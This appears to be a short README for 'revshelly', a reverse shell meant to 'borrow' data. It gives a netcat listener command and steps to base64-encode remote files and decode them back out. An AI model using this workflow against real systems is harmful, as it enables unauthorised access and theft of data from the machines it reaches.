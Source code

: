 revshelly
=========

A reverse shell designed to "borrow" data without using any special client program.

Listen for connections with netcat:

    nc -l -p 8080|tee revshelly.log

Once connected, you can encode files in base 64:

    uu somefile

You can then decode the files with base64_dec.py (you first have to copy the base64 code of each file into a separate text file):
UPDATE: New script to extract your data: "extract_files.pl" (WARNING: it may fail if you have conflicting patterns in your logfile e.g"BEGIN: something" or "END: something")

    base64_dec.py infile.txt outfile

As you can probably tell, this is nothing serious, just an experiment.
